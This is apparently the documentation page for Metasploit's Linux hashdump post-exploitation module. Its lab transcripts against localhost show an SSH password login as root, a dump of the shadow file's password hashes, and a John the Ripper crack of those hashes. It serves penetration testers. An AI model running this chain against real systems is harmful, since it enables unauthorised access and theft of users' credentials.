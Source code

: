 ## Verification Steps

  1. Start msfconsole
  2. Get a session via exploit of your choice
  3. Do: `use post/linux/gather/hashdump`
  4. Do: `set session <session>`
  5. Do: `run`
  6. You should see the contents of the shadow file

## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions -l`

## Scenarios

### Obtain Hashes

  Typical run against Kali, using ssh_login for initial shell

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set username root
username => root
msf auxiliary(ssh_login) > set password "test"
password => example_password
msf auxiliary(ssh_login) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[-] SSH - Could not connect: The connection was refused by the remote host (127.0.0.1:22).
[!] No active DB -- Credential data will not be saved!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'root:test' 'uid=0(root) gid=0(root) groups=0(root) Linux k 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (127.0.0.1:41521 -> 127.0.0.1:22) at 2016-09-14 00:12:36 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > use post/linux/gather/hashdump 
msf post(hashdump) > set session 1
session => 1
msf post(hashdump) > exploit

[+] root:$6$eMImGFXb$3eYV4g315Qf2NA1aQ72yMwnM68PapXfCoP74kAb5vmQoqOz7sDTJQEMPUNNjZSEz.E4tXebqvt2iR3W50L8NX.:0:0:root:/root:/bin/bash
[+] test:$6$gsSmzVTM$vxnEAvs2jEhuFtq0yzgCm.p49RmirvyI6HvPXgbLZCtg1sLp5Q2U82U6Gv6i5hz/pcsz882rnLRAyIL24h3/N.:1000:1000:test,,,:/home/test:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20160914003144_default_127.0.0.1_linux.hashes_080983.txt
[*] Post module execution completed
  ```

  This module only works when you are root or have root permisions.  If you only have user permission, expect feedback:

  ```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set username test
username => test
msf auxiliary(ssh_login) > set password test
password => test
msf auxiliary(ssh_login) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'test:test' 'uid=1000(test) gid=1000(test) groups=1000(test) Linux k 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (127.0.0.1:44823 -> 127.0.0.1:22) at 2016-09-14 00:24:17 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > use post/linux/gather/hashdump
msf post(hashdump) > set session 1
session => 1
msf post(hashdump) > exploit

[-] You must run this module as root!
[*] Post module execution completed
  ```
  ### Crack Hashes (John the Ripper)
  
The stored file can then have a password cracker used against it.  In this scenario, we'll use john (the ripper).
```
root@k:/git/metasploit-framework# john /root/.msf4/loot/20160914003144_default_127.0.0.1_linux.hashes_080983.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
test             (test)
test             (root)
2g 0:00:00:00 DONE 1/3 (2016-09-14 00:32) 40.00g/s 460.0p/s 480.0c/s 480.0C/s test..oo
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```